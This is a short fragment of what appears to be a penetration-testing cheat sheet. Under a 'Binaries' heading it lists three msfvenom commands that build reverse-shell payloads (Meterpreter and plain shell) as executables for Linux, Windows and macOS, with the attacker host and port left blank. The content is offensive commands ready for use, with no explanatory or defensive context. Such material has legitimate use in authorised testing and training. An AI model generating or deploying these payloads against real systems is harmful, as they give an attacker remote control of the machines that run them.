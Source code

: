 # **Binaries**

_**

## Binaries

**_

##   
  
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f elf > shell.elf  
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe  
msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f macho > shell.macho
